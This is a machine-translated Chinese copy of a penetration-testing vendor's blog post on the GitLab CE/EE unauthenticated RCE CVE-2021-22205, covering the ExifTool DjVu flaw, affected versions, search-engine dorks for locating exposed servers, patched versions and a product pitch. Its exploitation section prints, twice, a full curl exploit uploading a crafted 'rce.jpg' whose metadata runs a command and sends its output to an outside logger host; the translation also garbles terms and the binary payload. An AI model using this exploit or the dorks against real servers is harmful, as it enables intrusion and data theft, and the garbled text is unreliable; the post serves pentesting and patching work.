







# 与 Pentest-Tools.com 一起探测和开发 git lab CE/EE RCE(CVE-2021-22205)| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/detect-and-exploit-gitlab-ce-ee-rce-with-pentest-tools-com-cve-2021-22205>

“打补丁就好！”这是当漏洞来袭时的通常建议(而且不是零日)。但是，对于必须管理一层又一层基础架构的组织来说，事情从来都没有那么简单。

当你不得不处理一个像 git lab([cvss v3](https://nvd.nist.gov/vuln/detail/CVE-2021-22205)[**10)最新未认证的 RCE 这样的批判性 CVE 时。**](https://nvd.nist.gov/vuln/detail/CVE-2021-22205) 0)，将气泡修补到表面的纠结、杂乱的过程。

2021 年 4 月 7 日， [vakkz](https://hackerone.com/vakzz) 在 [Hackerone](https://hackerone.com/) 上提交了一份[报告](https://hackerone.com/reports/1154542)，称他发现了一个当用户上传畸形图片到 Gitlab 时远程执行代码的漏洞。在这种情况下，Gitlab 将图像发送到 Exiftool，根据预定义的白名单标签过滤恶意内容。

*那么，是什么让它成为如此大的问题呢*？是时候多讲一点背景知识了。

## **git lab 是什么？**

GitLab 是一个基于 web 的 DevOps 生命周期工具，它为 Git 存储库管理器提供了 wiki、问题跟踪以及持续集成和部署管道等功能，该工具使用 GitLab Inc .开发的开源许可证。

[Gitlab 自诩](https://about.gitlab.com/company)“预计注册用户 3000 万，活跃许可用户 100 多万”，贡献者超过 2500 人。“从这些数字中可以明显看出，Gitlab 中的一个关键安全问题可能会产生广泛的影响。

该平台遵循开放核心开发模型，其中基本功能在开源(MIT)许可证下发布，而代码所有者、多问题受托人、依赖性扫描和洞察力等附加功能在专有许可证下推出。

## **git lab CE/EE RCE vuln 如何工作**

当用户上传带有任何 **jpeg/jpg/tiff** 扩展名的图片时，Gitlab 的主力将它发送到 [Exiftool](https://exiftool.org/) 以根据预定义的白名单标签过滤恶意内容。Exiftool 尝试根据提供的内容确定文件类型的有效性。因此，如果用户重命名文件，可以加载任何解析器，而不仅仅是上面提到的扩展名。

由于不正确的验证，如果具有对端口 443 的网络访问权限的恶意参与者传递带有包含恶意元数据的 [DjVu](https://github.com/exiftool/exiftool/blob/11.70/lib/Image/ExifTool/DjVu.pm) 注释的图像，他们可以在服务器上以 *git* 用户的身份执行任意命令。

这是一个 [**带外漏洞**](/blog/?s=Out-of-Band+vulnerability) ，意味着命令的输出没有反映在响应中。攻击者必须使用外部记录器来捕捉响应。

毫不奇怪，自 2021 年 6 月以来，这个漏洞在互联网上被广泛利用。

## **易受攻击的 Gitlab 版本**

根据他们的[安全发布](https://about.gitlab.com/releases/2021/04/14/security-release-gitlab-13-10-3-released/)，这个安全问题被追踪为 [CVE-2021-22205](https://nvd.nist.gov/vuln/detail/CVE-2021-22205) ，影响从 11.9 开始直到 13.10.2、13.9.5 和 13.8.7 的 Gitlab CE 版本。当它出来时，它的 CVSSv3 评分为 9.9，但他们最近将其升级到 10.0，因为它是一个 [**未经认证的漏洞**](/blog/?s=unauthenticated+vulnerability) 。

自 2021 年 4 月以来，补丁已经可用，但很可能仍有大量易受攻击的实例。由于运行 Gitlab 的公司数量庞大(超过 100，000 家)，该漏洞是一个必须修补的补丁。

## **CVE 的业务影响-2021-22205**

成功利用此漏洞后，未经验证的攻击者可以获得远程代码执行俱乐部的“完全访问票”。

那么，你如何证明对 CVE 的商业影响呢？

我将展示三种方法来查找可能受此漏洞影响的实例。

### **使用 Shodan**

在写这篇文章的时候，Shodan 透露了至少有 **55，366 个潜在易受攻击的**服务器。

您可以使用以下 Shodan 查询来查找暴露于此未经验证的 RCE 漏洞的 Gitlab 设备:

***标题:【签到 git lab】***

**使用谷歌呆子**

### Gitlab 实例使用基于 web 的接口，因此您可以使用 Google Dorks 通过以下搜索查询来找出 Gitlab 主机:

*intitle:“登录 git lab”*

*intitle:“登录 git lab”*

**使用 PublicWWW**

### [PublicWWW](https://publicwww.com/) 是一个搜索引擎，您可以使用它根据源代码内容、响应标题、cookies 和使用的技术来搜索网站。您可以使用我刚才提到的相同的呆子，也可以使用一些更多的细节，如:

*“登录 git lab”*

*“登录 git lab”*

**如何在道德黑客活动中利用 CVE-2021-22205**

## 为了利用 CVE-2021-22205 ，你必须遵循以下步骤:

curl-k-s https://**<HOST>**/users/sign _ in
从这里，您需要提取 cookie 会话 id 和 CSRF 令牌。>

| curl-I-s-k-X $ ' POST '
-H $ ' Host:**<Host>**'-H $ ' Connection:close '-H $ ' Accept-Encoding:gzip，deflate '-H $ ' Accept:*/*'-H $ ' User-Agent:Mozilla/5.0(Windows NT 10.0；RV:60.0)Gecko/2011 01 01 Firefox/60.0 '-H $ ' X-Csrf-Token:**<CSRF _ Token>**'-H $ ' Content-Type:multipart/form-data；boundary =—-webkitformboundaryimv 3 mxrg 59 tkfsx 5 '-H $ ' Content-Length:974 '
-b $ '*GITLAB*SESSION =**<GITLAB _ SESSION>**；实验 *subject* id= < **实验*SUBJECT*ID**>
–data-binary $ ' x0dx0a——webkitformboundaryimv 3 mxrg 59 tkfsx 0x 0 dx0a content-Disposition:form-data；name = " filefilename = "**rce.jpg**" x0dx 0 a content-Type:image/JPEG x0 dx 0 ax 0x 0 aat&t formx 0 0x 00x 0x 03 xafdjvmdirmx 00x 00 x 00 x 81 x 00 x 02 x 00 x 00 FX 00x 00 x 00 acxfffxfxfxdebfx 99！xc8x 91 nxebx 0 CX 07 x1 fxd 2 xda x88 xe 8 kxe 6 dx 0 f，qx02xeeIxd3nx95xbdxa2xc3 "？formx00x00x00^djvuinfox00x00x00x0ax00x08x00x08x18x00dx00x16x00inclx00x00x00x0fshared_anno.iffx00bg44x00x00x00x11x00jx01x02x00x08x00x08x8axe6xe1xb17xd9x7f*x89x00bg44x00x00x00x04x01x0fxf9x9fbg44x00x00x00x02x02x0aformx00x00x03x07djviantax00x00x01p(metadatax0ax09(copyright " \ x0a "。qx {**curl–data $(<命令>)https://<LOGGER>**}。\ x0a " b "))x 0x 0 dx 0 a——webkitformboundaryimv 3m xrg 59 tkfsx 5–x 0x 0 ax 0 dx 0 a " '
' https://**<HOST>**/uploads/user ' |
| --- |
| curl-I-s-k-X $ ' POST '
-H $ ' Host:**<Host>**'-H $ ' Connection:close '-H $ ' Accept-Encoding:gzip，deflate '-H $ ' Accept:*/*'-H $ ' User-Agent:Mozilla/5.0(Windows NT 10.0；RV:60.0)Gecko/2011 01 01 Firefox/60.0 '-H $ ' X-Csrf-Token:**<CSRF _ Token>**'-H $ '内容-类型:multipart/form-data；boundary =—-webkitformboundaryimv 3 mxrg 59 tkfsx 5 '-H $ ' Content-Length:974 '
-b $ '*GITLAB*SESSION =**<GITLAB _ SESSION>**；实验 *subject* id= < **实验*SUBJECT*ID**>
–data-binary $ ' x0dx0a——webkitformboundaryimv 3 mxrg 59 tkfsx 0x 0 dx0a content-Disposition:form-data；name = " filefilename = "**rce.jpg**" x0dx 0 a content-Type:image/JPEG x0 dx 0 ax 0x 0 aat&t formx 0 0x 00x 0x 03 xafdjvmdirmx 00x 00 x 00 x 81 x 00 x 02 x 00 x 00 FX 00x 00 x 00 acxfffxfxfxdebfx 99！xc8x 91 nxebx 0 CX 07 x1 fxd 2 xda x88 xe 8 kxe 6 dx 0 f，qx02xeeIxd3nx95xbdxa2xc3 "？formx00x00x00^djvuinfox00x00x00x0ax00x08x00x08x18x00dx00x16x00inclx00x00x00x0fshared_anno.iffx00bg44x00x00x00x11x00jx01x02x00x08x00x08x8axe6xe1xb17xd9x7f*x89x00bg44x00x00x00x04x01x0fxf9x9fbg44x00x00x00x02x02x0aformx00x00x03x07djviantax00x00x01p(metadatax0ax09(copyright " \ x0a "。qx {**curl–data $(<COMMAND>)https://<LOGGER>**}。\ x0a " b "))x 0x 0 dx 0 a——webkitformboundaryimv 3m xrg 59 tkfsx 5–x 0x 0 ax 0 dx 0 a " '
' https://**<HOST>**/uploads/user ' |

如果你想尝试另一种更快的开发策略，请继续阅读这篇文章。

验证 CVE-2021-22205 在你的目标上可被利用的最快和最省事的方法是使用[狙击自动利用者](https://pentest-tools.com/exploit-helpers/sniper)，Pentest-Tools.com 上的自动攻击者。

该工具自动模拟现实世界的利用和攻击技术:

它扫描开放的端口，收集有关协议、服务类型和版本的数据

*   它对 web 服务进行指纹识别，以确定运行的 web 应用程序的类型及其背后的技术栈

*   它寻找兼容的利用

*   它检查目标是否确实易受攻击，在此阶段不提取任何数据

*   一旦获得 RCE，Sniper 自动提取所有工件(当前和本地用户，系统信息，运行进程，网络配置等。)，这将在输出报告中得到

*   它确实会清除，所以目标保持不变。

*   

*这一切都发生在**一分钟***——字面意思——与人工开采相比，这是一个巨大的收获，特别是当你在 pentest 中时间紧迫的时候(而当*没有发生*？).

由于 Sniper 不会生成结果，如果您想在结果页面中填充漏洞，请运行默认包含 Sniper 检测模块的[网络漏洞扫描](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas)。

**如何缓解 CVE-2021-22205**

我们建议在您的环境中应用可用的补丁，因为 Gitlab 已经发布了[针对 CVE-2021-22205](https://about.gitlab.com/releases/2021/04/14/security-release-gitlab-13-10-3-released/) 的补丁。

## 产品构建

固定版本

| Gitlab 13.10 | 13.10.3 |
| --- | --- |
| Gitlab 13.9 | 13.9.6 |
| Gitlab 13.8 | 13.8.8 |
| **DevOps 很棒——如果你持续关注它的话** | 全球企业正在运行 Gitlab 技术，以更轻松地管理他们的代码结构，并扩展他们的 DevOps 生命周期。虽然这种基于 web 的解决方案有助于组织提高软件生产效率，但未打补丁的实例可能会给他们带来一系列安全问题。 |

## 定期监控是确保业务连续性的必备条件，而[计划扫描](https://pentest-tools.com/features/scan-scheduling)(你也可以在[Pentest-Tools.com](https://pentest-tools.com)上获得)是一种在潜在问题升级之前发现它们的简单方法。

我们的团队一直在努力添加新功能并改进【Pentest-Tools.com】上的[工具](https://pentest-tools.com)(现在是 25+)和[功能](https://pentest-tools.com/features)，这样你就可以快速检测和利用漏洞，甚至更快地报告它们。

定期监控是确保业务连续性的必备条件，而[计划扫描](https://pentest-tools.com/features/scan-scheduling)(你也可以在【Pentest-Tools.com】T2 上获得)是一种在潜在问题升级之前发现它们的简单方法。

我们的团队一直在努力添加新功能，并改进【Pentest-Tools.com】上的[工具](https://pentest-tools.com)(目前为 25+)和[功能](https://pentest-tools.com/features)，以便您可以快速检测和利用漏洞，甚至更快地报告它们。